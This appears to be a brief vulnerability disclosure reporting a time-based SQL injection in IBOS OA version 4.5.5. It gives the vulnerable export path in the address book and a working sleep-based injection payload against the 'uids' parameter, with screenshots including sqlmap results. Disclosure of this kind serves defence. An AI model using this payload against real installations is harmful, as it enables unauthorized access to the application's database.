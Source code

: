 SQL injection vulnerability in ibos oa v4.5.5

official website： http://www.ibos.com.cn/

version：4.5.5

Log in to the background. Personal Office => Address Book => Export This Page => Packet Capture Delay Injection Succeeded

![微信截图_20230918104519](https://github.com/xiaosed/cve/assets/84080097/d01609e7-4acf-4c40-8852-a316500d6e25)



![图片3](https://github.com/xiaosed/cve/assets/84080097/5c9c7320-a602-4deb-8186-65eb130e9118)




Payload：uids=u_1'and(select*from(select+sleep(8))a/**/union/**/select+1)='

Sqlmap：

![图片4](https://github.com/xiaosed/cve/assets/84080097/dddb023a-22d1-4b79-80b9-87177facc95a)

